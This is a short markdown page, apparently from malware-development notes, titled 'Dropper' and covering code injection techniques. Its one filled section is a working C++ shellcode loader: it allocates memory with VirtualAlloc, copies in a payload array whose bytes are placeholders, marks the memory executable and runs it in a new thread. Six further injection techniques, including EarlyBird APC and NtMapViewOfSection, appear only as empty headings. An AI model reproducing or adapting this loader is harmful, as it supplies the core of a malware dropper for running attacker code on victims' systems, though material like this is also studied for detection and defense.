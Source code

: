 ```yaml
---
title: Dropper
category: Malware Develpment
order: 2
---
```


Code Injection techniques.

# Basic Loader (VirtualAlloc)

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	unsigned char payload[] = { 0x00, 0x00,...};
	unsigned int payload_len = sizeof(payload);

	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

# Remote Process (VirtualAllocEx)


# Thread Context (GetThreadContext)


# Sections and View (NtMapViewOfSection)


# EarlyBird (QueueUserAPC)


# ApiReeKall (RtlRemoteCall)


# COFF Loader (mokosh)